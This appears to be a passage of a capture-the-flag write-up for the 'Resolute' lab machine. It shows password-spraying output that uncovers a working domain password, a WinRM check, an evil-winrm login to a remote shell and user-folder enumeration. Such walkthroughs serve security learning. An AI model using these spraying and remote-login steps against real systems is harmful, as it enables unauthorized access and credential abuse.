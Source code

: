 ```bash
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\zach:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\simon:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\naoki:Welcome123! STATUS_LOGON_FAILURE
```

We have credentials `melanie:Welcome123!` .

# Foothold

Actually, melanie is part of the Remote Management Users, so we can connect to the machine.

```bash
┌──(kali㉿kali)-[~/machines/windows/resolute]
└─$ crackmapexec winrm 10.10.10.169 -u 'melanie'  -p 'Welcome123!'     
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

We can connect using evil-winrm

```bash
┌──(kali㉿kali)-[~/machines/windows/resolute]
└─$ evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'   
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents>
```

In the \Users\ folder we see the user ryan, let’s see in what groups is this user.

```bash
*Evil-WinRM* PS C:\Users> dir

    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/25/2019  10:43 AM                Administrator
d-----        12/4/2019   2:46 AM                melanie
d-r---       11/20/2016   6:39 PM                Public
d-----        9/27/2019   7:05 AM                ryan
```
